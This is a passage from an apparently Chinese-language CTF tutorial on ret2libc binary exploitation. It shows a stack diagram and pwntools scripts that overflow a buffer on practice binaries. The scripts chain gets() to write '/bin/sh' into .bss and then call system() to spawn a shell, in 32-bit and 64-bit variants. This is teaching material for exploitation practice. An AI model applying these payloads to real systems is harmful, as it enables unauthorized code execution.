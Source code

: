 ```c
+---------------------+    
|   system() 地址      | <--- gets() 返回后跳转到这里（pop_ebx 后执行）
+---------------------+ 
|   system的返回地址    | <--- 填充 p32(0)（占位，无实际作用）
+---------------------+
|  system的参数1       | <--- 指向 buf2（已写入 "/bin/sh"）
+---------------------+ <--- 高地址（栈底）
```

下面是具体的exp脚本：可以一一对应。

```python
from pwn import *
#当没有bin/sh和sh的字符串时，我们可以利用现有的发送去发送一个bin/sh
#32位
elf = ELF('./pwn')
system = elf.sym['system']
buf2 = 0x804B060 #bss段
gets = elf.sym['gets']
pop_ebx = 0x8048409     # 0x08048409 : pop ebx ; ret

payload = cyclic(0x6c+4) + p32(gets) + p32(pop_ebx) + p32(buf2) + p32(system) + p32(0) + p32(buf2)

io.sendline(payload) 
io.sendline("/bin/sh")
#还可以
'''
p=process('./ret2libc2')
sys_addr=0x8048490
get_addr=0x8048460
bss_addr=0x804A080
payload = 'a'*112 +p32(get_addr)+p32(sys_addr)+p32(bss_addr)+p32(bss_addr)
p.sendline(payload)
p.sendline('/bin/sh')
p.interactive()
'''
#64位多了一个pop rdi和buf2的地址在gets函数前
elf = ELF('./pwn')
system = elf.sym['system']
buf2 = 0x602080
gets = elf.sym['gets']
pop_rdi = 0x4007f3     # 0x00000000004007f3 : pop rdi ; ret

payload = cyclic(0xA + 8) + p64(pop_rdi) + p64(buf2) + p64(gets) + p64(pop_rdi) + p64(buf2) + p64(system) + p64(0) + p64(buf2)

io.sendline(payload) 
io.sendline("/bin/sh")
```

## ret2libc
